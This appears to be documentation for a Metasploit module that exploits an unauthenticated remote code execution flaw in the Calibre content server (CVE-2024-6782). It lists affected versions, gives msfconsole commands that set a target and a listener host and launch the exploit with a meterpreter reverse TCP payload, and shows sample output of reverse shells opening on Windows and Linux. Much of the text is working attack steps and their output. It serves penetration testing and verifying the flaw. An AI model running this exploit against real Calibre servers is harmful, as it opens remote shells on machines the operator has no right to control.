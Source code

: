 ## Vulnerable Application

**Vulnerability Description**

This module exploits a vulnerability in Calibre <= v6.9.0 - v7.14.0 (CVE-2024-6782).

An unauthenticated remote attacker can exploit this vulnerability to gain arbitrary code execution in the context of which Calibre is being
executed.

All versions between v6.9.0 - v7.14.0 are affected. STAR Labs published [an advisory](https://starlabs.sg/advisories/24/24-6782/) that
includes the root cause analysis and a proof-of-concept.

**Vulnerable Application Installation**

Calibre can be downloaded from [here](https://download.calibre-ebook.com/).

**Successfully tested on**

Windows:
- Calibre v7.14 on Windows 10 22H2
- Calibre v7.0 on Windows 10 22H2
- Calibre v6.29 on Windows 10 22H2
- Calibre v6.9 on Windows 10 22H2

Linux:
- Calibre v7.14 on Ubuntu 24.04 LTS
- Calibre v7.0 on Ubuntu 24.04 LTS
- Calibre v6.29 on Ubuntu 24.04 LTS
- Calibre v6.9 on Ubuntu 24.04 LTS

## Verification Steps

1. Install Calibre
2. Start Calibre and click Connect/share > Start Content server
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/multi/misc/calibre_exec
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/misc/calibre_exec) > set RHOSTS <IP>
msf6 exploit(multi/misc/calibre_exec) > set LHOST <IP>
msf6 exploit(multi/misc/calibre_exec) > exploit
```

You should get a meterpreter session running in the same context as the Calibre application.

## Scenarios

**Windows**

Running the exploit against Calibre v7.14 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf6 exploit(multi/misc/calibre_exec) > exploit 

[*] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending payload...
[*] Sending stage (201798 bytes) to 192.168.137.194
[*] Meterpreter session 1 opened (192.168.137.190:4444 -> 192.168.137.194:50346) at 2024-08-01 23:28:16 -0400
[*] Exploit finished, check thy shell.

meterpreter > sysinfo
Computer        : DESKTOP-foo
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > shell
Process 6084 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Calibre2>whoami
whoami
desktop-foo\admin
```

**Linux**

Running the exploit against Calibre v7.14 on Ubuntu 24.04 LTS, using cmd/unix/python/meterpreter/reverse_tcp as a payload, should result in
an output similar to the following:

```
msf6 exploit(multi/misc/calibre_exec) > exploit 

[ *] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending payload...
[*] Sending stage (24772 bytes) to 192.168.137.195
[*] Meterpreter session 2 opened (192.168.137.190:4444 -> 192.168.137.195:52376) at 2024-08-01 23:40:16 -0400

meterpreter > sysinfo
Computer        : asdfvm
OS              : Linux 6.8.0-39-generic #39-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 21:49:14 UTC 2024
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
```
